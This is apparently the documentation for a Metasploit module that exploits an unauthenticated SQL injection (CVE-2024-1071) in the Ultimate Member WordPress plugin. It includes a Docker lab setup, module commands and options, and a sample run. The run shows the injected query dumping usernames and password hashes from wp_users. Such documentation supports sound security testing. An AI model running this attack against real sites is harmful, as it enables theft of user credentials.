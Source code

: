 ## Vulnerable Application

The vulnerability affects the **Ultimate Member** plugin for WordPress, versions
**2.1.3 to 2.8.2**, allowing **unauthenticated SQL injection** (unauth SQLi) via
the `sorting` parameter.
This plugin has over **200,000 active installations**, making this a significant security issue.

### Pre-requisites:
   - **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Here is the content of the **docker-compose.yml** file to set up WordPress
   with the vulnerable Ultimate Member plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

3. **Install Ultimate Member Plugin**:
   - Download the vulnerable version of the Ultimate Member plugin:

```bash
wget https://downloads.wordpress.org/plugin/ultimate-member.2.8.2.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip ultimate-member.2.8.2.zip
docker cp ultimate-member wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **Ultimate Member** plugin in the WordPress admin panel.

4. **Enable Custom Account Metadata Table**:
   - Navigate to `http://localhost:5555/wp-admin/admin.php?page=um_options&tab=misc`
   and enable the **Use a custom table for account metadata** option.

## Verification Steps

1. **Set up WordPress** with the vulnerable **Ultimate Member 2.8.2** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
   use auxiliary/scanner/http/wp_ultimate_member_sorting_sqli
```

4. Set the target's IP and URI:

```bash
   set RHOST <target_ip>
   set TARGETURI /
```

5. **Run the module**:

```bash
   run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to retrieve or manipulate data from the WordPress database.

## Options

### DIR_ID_MIN and DIR_ID_MAX
These options specify the range of `directory_id` values used to bruteforce the ID during the SQL injection attack.
By default, they are set from 1 to 100, but you can adjust this range based on your target.

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.
For example, setting `COUNT` to 5 will retrieve 5 rows from the `wp_users` table.

### PAGE_ID_MIN and PAGE_ID_MAX
These options specify the range of `page_id` values used to locate the pages containing the nonce required for the SQL injection.
By default, they are set from 1 to 20, but you can adjust this range based on your target.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **Ultimate Member 2.8.2** on a Docker environment with MySQL.

### Step-by-step Scenario

```bash
msf auxiliary(scanner/http/wp_ultimate_member_sorting_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection for CVE-2024-1071 via the 'sorting' parameter...
[*] Getting nonce...
[+] Nonce retrieved: 1ab37a3d8f
[*] Searching for valid directory id between 1 and 100...
[+] Valid directory ID found: b9238 (tested with 1)
[*] {SQLi} Executing (select group_concat(VTKTaFWa) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) VTKTaFWa from wp_users limit 1) Dc)
[*] {SQLi} Encoded to (select group_concat(VTKTaFWa) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xfb,0)),ifnull(user_pass,repeat(0x20,0))) as binary) VTKTaFWa from wp_users limit 1) Dc)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240922050825_default_127.0.0.1_wordpress.users_421054.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
